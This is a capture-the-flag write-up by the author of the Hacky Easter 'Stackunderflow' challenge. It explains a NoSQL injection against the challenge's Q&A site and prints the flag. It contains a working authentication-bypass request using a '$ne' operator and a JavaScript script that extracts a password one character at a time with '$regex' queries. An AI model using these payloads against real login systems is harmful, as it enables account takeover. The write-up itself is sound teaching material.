


# 10 - Stackunderflow

## Description
Level: medium<br/>
Author: 0xI

Check out this new Q&A site. They must be hiding something but we don't know where to search.

[Stackunderflow](http://whale.hacking-lab.com:3371/)

## Solution

This was my own (and first) challenge that I provided for Hacky Easter. In this writeup I will discuss my intended
solution for this challenge. You find the source code of the challenge [here](stackunderflow).

From the questions on the website it should be obvious that a NoSQL database is involved.



The user the_admin will be our first target. To bypass the authentication I used the following request:

```
POST http://localhost:3000/login
Content-Type: application/json

{
  "username": "the_admin",
  "password": {
    "$ne": null
  }
}
```

The_admin is able to see some hidden questions. One of them is really interesting:
The user null asks: "Should my password really be the flag?"



It's now clear that we have to bruteforce his password. To do this the request has to be JSON.

From there it's quite easy:

```javascript
function tryLogin(current, callback) {
    fetch('http://localhost:3000/login', {
        method: 'POST',
        headers: {
            "Content-Type": "application/json",

        },
        body: JSON.stringify(
            {
                "username": "null",
                "password": {
                    "$regex": "^" + current + ".*$"
                }
            }
        )
    }).then(response => {
        if (response.status == 200) {
            console.log(current);
            callback(current);
        }
    });

}

function request(current) {
    for (let i = 48; i <= 122; i++) {
        const c = String.fromCodePoint(i)

        if (['?', '^', '|', '\\'].includes(c)) {
            continue;
        }

        tryLogin(current + c, request)
    }
}

request('');
```

The password is: `N0SQL_injections_are_a_thing`
